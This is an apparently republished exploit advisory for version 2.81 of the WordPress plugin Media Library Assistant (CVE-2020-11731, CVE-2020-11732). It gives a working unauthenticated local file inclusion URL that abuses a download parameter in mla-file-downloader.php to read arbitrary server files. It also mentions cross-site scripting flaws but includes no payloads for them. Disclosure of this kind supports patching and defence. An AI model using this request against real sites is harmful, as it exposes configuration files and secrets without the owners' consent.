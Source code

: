 ```yaml
---
layout: post
title: WordPress Media Library Assistant 2.81
date: 2020-04-14 03:45 +0300
categories: [Exploits, File Inclusion]
tags: [exploits]
---
```









![](../../../assets/img/Exploits/wordpressmedia.png)

The plugin version 2.81 of WordPress Media Library Assistant has a vulnerability that allows for local file inclusion.

  

```
MD5 | b31e7279051191481d8919615b301f40
```

```perl
    # Exploit Title: Wordpress Plugin Media Library Assistant 2.81 - Local File Inclusion
    # Google Dork: N/A
    # Date: 2020-04-13
    # Exploit Author: Daniel Monzón (stark0de)
    # Vendor Homepage: http://davidlingren.com/
    # Software Link: https://wordpress.org/plugins/media-library-assistant/
    # Version: 2.81
    # Tested on: Windows 7 x86 SP1
    # CVE : CVE-2020-11731, CVE-2020-11732
    
    ----Local File Inclusion----------------------------
    
    There is a file inclusion vulnerability in the mla-file-downloader.php file. Example:
    
    http://server/wordpress/wp-content/plugins/media-library-assistant/includes/mla-file-downloader.php?mla_download_type=text/html&mla_download_file=C:\Bitnami\wordpress-5.3.2-2\apps\wordpress\htdocs\wp-content\plugins\updraftplus\options.php
    
    Visiting the above URL would lead to disclosure of the contents of options.php. Note that this vulnerability does not require authentication.
    
    
    ----Multiple Cross-Site-Scripting-------------------
    
    There are both reflected and stored cross-site scripting vulnerabilities in almost all Settings/Media Library Assistant tabs, which allow remote authenticated users to execute arbitrary JavaScript.
    
    Note that this vulnerability requires authentication.
    
    
    
    Tested on Windows 7 Pro SP1 32-bit and Wordpress 5.3.2
```
{: .nolineno }

<br>

  

>*Source* :   [https://packetstormsecurity.com](https://packetstormsecurity.com)